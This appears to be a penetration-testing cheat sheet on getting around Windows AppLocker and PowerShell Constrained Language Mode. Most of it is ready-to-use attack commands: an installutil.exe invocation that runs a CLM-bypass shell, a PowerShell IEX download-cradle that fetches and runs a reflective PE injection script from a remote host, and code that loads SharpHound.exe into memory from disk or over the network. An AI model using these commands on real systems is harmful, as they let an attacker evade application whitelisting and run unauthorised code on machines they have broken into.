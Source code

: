 # Applocker
## Check Powershell Language Mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```
## Bypass CLM
[FLM-Shell](https://github.com/an3m0ne/FLM-Shell)
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\an3m0ne\FLM-Shell.exe
```

## Bypass Applocker
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
```powershell
IEX(New-Object Net.WebClient).downloadString('http://192.168.0.1/Invoke-ReflectivePEInjection.ps1')

#local
$PEBytes = [IO.File]::ReadAllBytes('SharpHound.exe')
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"

#remote
$PEBytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.0.1/SharpHound.exe")
Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs "Arg1 Arg2 Arg3 Arg4"
```
